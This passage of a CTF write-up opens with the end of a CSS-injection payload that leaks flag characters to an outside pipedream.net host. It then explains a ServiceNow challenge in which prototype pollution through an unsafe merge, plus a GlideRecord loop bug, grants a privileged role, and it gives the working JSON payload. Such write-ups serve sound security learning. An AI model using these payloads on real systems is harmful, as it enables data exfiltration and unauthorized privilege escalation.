  background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{e);
}
a[href^="view\?content\=sdctf{f"] {
  background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{f);
}
```

### References

- https://xsleaks.dev/docs/attacks/css-injection/
- https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
- https://new-blog.ch4n3.kr/bypassing-dompurify-possibilities/
- https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/
- https://mizu.re/post/intigriti-october-2023-xss-challenge

## SNOWfall (1 solve, 500 pts)

### Description

Flag is at https://dev258962.service-now.com/flag, thats it! Oh you might need a special role for it, but I hear its not too hard to request.

### Challenge

We are given a link to a ServiceNow instance, and are told that the flag is at the `/flag` endpoint. We are also told that we might need a special role for it, hinting that the `/flag` endpoint is protected by some sort of role based access control. We are additionally given a `zip` containing `SNOWfall.xml`, which is an "Update Set", similar to a `patch` file that can be applied to a personal ServiceNow instance to recreate the challenge scenario.

### Notes

This challenge is definately a bit different than most web challenges people are used to, even though the core vulnurability is an extremely well known javascript vulnerability that many CTF players are likely familiar with. The challenge runs on a ServiceNow instance, which is a cloud based platform that provides a variety of services, and is also used by UC San Diego themselves for internal document and case management. Since the challenge is a bit different, I will provide a brief overview of the ServiceNow platform, and how the challenge is setup, which hopefully gives a good perspective into what went into this challenge.

At its core, ServiceNow breaks everything down into tables. Everything in ServiceNow is a record in some table, whether it be a user in the `sys_user` table, a catalog item in the `sc_cat_item` table, or an ACL policy in the `sys_security_acl_list`. If we look at the Customer Updates in the `SNOWFall.xml` file, we can see these more clearly:



We can see the "Type" (table) as well as the Record Name for the update. What this update set added overall was the `/flag` page, one Catalog Item called `Flag Holder Application`, and an associated Workflow. From a better UI, the flag holder application looks like this:


We can also see the associated variables for this catalog item on the bottom when we scroll down:


One thing to see here is that there is a `meta` variable thats hidden. This data is populated by an `onSubmit` Catalog Client Script, which is a script that runs when the form is submitted. This script is as follows:

```js
function onSubmit() {
  // Populate the "meta" variable with a JSON object containing the catalog item metadata
  var meta = {};
  var time = new Date();
  var submitter = g_user.userID;
  var submitterName = g_user.getFullName();

  meta.time = time.toLocaleString();
  meta.submitter = submitter;
  meta.submitterName = submitterName;

  g_form.setValue("meta", JSON.stringify(meta));
}
```

Note here, that this code is run on the server. However note that even though this a hidden field, it is still being submitted from the client, so we can modify it.

Next to notice is the backend, which is the `Flag Holder Application Workflow`.


There are two main issues here, First is in the "Validate Form Answers" If script:

```js
function ifScript() {
  var now = new global.ServiceNowObjectUtils();
  var form_data = {};

  now.merge(form_data, JSON.parse(current.variables.meta));
  now.merge(form_data, current.variables);

  var ritm_data = {};
  now.merge(ritm_data, current);

  gs.info(JSON.stringify(form_data));
  var issues = [];

  // Validate form submission
  if (form_data.submitter != current.opened_by.sys_id) {
    issues.push("You don't seem to be the opener of this case.");
  }

  if (form_data.do_you_want_to_be_a_flag_holder !== "Yes") {
    issues.push("You must want to be a flag holder.");
  }

  var HSLUtils = new global.HSLUtils();
  var colors = form_data.question_color_palette_of_meal.split("|");
  if (colors.length !== 4) {
    issues.push("You must select 4 colors.");
  }

  for (var i = 0; i < colors.length; i++) {
    if (!HSLUtils.test(colors[i])) {
      issues.push("Invalid color: " + colors[i]);
    }
  }

  if (form_data.question_favorite_ice_shape !== "ic_klein_bottle") {
    issues.push("We only like 4D ice here.");
  }

  if (form_data.question_describe_food_taste.length < 30) {
    issues.push("Please describe the taste of food in more detail.");
  }

  if (issues.length > 0) {
    workflow.scratchpad.issue_message = "\n" + issues.join("\n");
    workflow.scratchpad.issue_count = issues.length;
    return false;
  }

  return true;
}

answer = ifScript() ? "yes" : "no";
```

At the top of the script, we call:

```js
var now = new global.ServiceNowObjectUtils();
var form_data = {};

now.merge(form_data, JSON.parse(current.variables.meta));
now.merge(form_data, current.variables);
```

This creates a `ServiceNowObjectUtils` object, which is also present in the Update Set. This is known as a Script Include, which is a reusable script that can be called from other scripts. The `ServiceNowObjectUtils` script include is as follows:

```js
var ServiceNowObjectUtils = Class.create();
ServiceNowObjectUtils.prototype = {
  initialize: function () {},

  merge: function (base, obj) {
    function isObject(obj) {
      return (
        (typeof obj === "object" || typeof obj === "function") &&
        !String(obj.constructor.name).startsWith("Glide")
      );
    }

    for (var key in obj) {
      if (isObject(base[key]) && isObject(obj[key])) {
        this.merge(base[key], obj[key]);
      } else if (key in base) {
        continue;
      } else {
        if (
          obj[key].constructor &&
          obj[key].constructor.name.startsWith("Glide")
        ) {
          // To normalize special Glide Objects that can't be traversed
          base[key] = obj[key].toString();
        } else {
          base[key] = obj[key];
        }
      }
    }
    return base;
  },
  type: "ServiceNowObjectUtils",
};
```

Taking a look at this, one should note that this is a classic case of an unsafe recursive object merge. This is a common vulnerability in javascript, and is known as Prototype Pollution. The `merge` function is recursive, and will merge objects together. However, if the object being merged has a prototype property, it will be copied over to the base object. This can be used to overwrite properties on the base object, and can be used to overwrite properties on the base `{}` object.

The next issue is in the actual `Administrator` script:

```js
var GlideRecordUtil = new global.GlideRecordUtil();
var RoleModUtils = new global.RoleModUtils();

var gr = new GlideRecord("sys_user_has_role");
gr.addQuery("role", "2831a114c611228501d4ea6c309d626d"); // admin
gr.query();

do {
  var user_role_obj = {};
  GlideRecordUtil.populateFromGR(user_role_obj, gr);
  if (user_role_obj.user == current.opened_by) {
    RoleModUtils.addRole(current.opened_by, "c60206c2c30602102a53fdec05013190");
    workflow.scratchpad.admin_message = "lgtm, added flag_holder role";
    return true;
  }
} while (gr.next());
```

Its a very subtle issue, but if we look at the `GlideRecord` documentation, we need to actually call `gr.next()` first to get the first record queried. The subtle issue here is that in the first loop iteration, we are going to be referencing an empty object. We can use this to our advantage, combined with the prototype pollution vulnerability.

The solution here is to pass the following from the client as the "meta" variable.

```json
{
  "time": "5/15/2024, 1:54:18 AM",
  "submitter": "--sys-id--",
  "submitterName": "System Administrator",
  "constructor": {
    "prototype": {
      "user": "--sys-id--"
    }
  }
}
```

### Notes

This challenge ended up being much harder than expected, with only 1 solve. This was my mistake, I should have definately provided more information about the ServiceNow platform from the start as well are various references as to how to access records in the platform.

The one team who solved it, `000`, seemed to solve it in this general pattern as well, by starting off noticing the unsafe merge merge code in `ServiceNowObjectUtils`, and then noticing that the `populateFromGR` record was returning an empty object for the record. Its definately extremely extremely hard to solve this without setting up your own PDI, so I should have provided more information on how to do this as well.

But overall this was extremely impressive by `000`, and I had seen a few other challengers get extremely close as well.

Another thing that did trip some users who got this far up, is that the ServiceNow server is running on Rhino1.7R5. People who tried to do prototype pollution using `__proto__` had quit early when it didn't work, but this was due to this Javascript runtime not supporting `__proto__`. There were people who were soooooo close, but got stuck here. I hope people learned alot though about this platform, and it was hopefully a good (maybe just interesting) change of pace :).

### References

- https://developer.servicenow.com/dev.do#!/learn/learning-plans/utah/new_to_servicenow/app_store_learnv2_buildmyfirstapp_utah_personal_developer_instances
- https://docs.servicenow.com/bundle/utah-it-service-management/page/product/site-reliability-ops/task/sro-update-set-quick-start.html
- https://developer.servicenow.com/blog.do?p=/post/training-scriptsbg/

## Conclusion

This was a fun CTF to organize, and I hope everyone enjoyed it. I know we had some issues in the beginning (ahem ahem rip infra), but I hope people enjoyed these challenges and thought they were unique / interesting. Thank you for playing and see you next time! :D
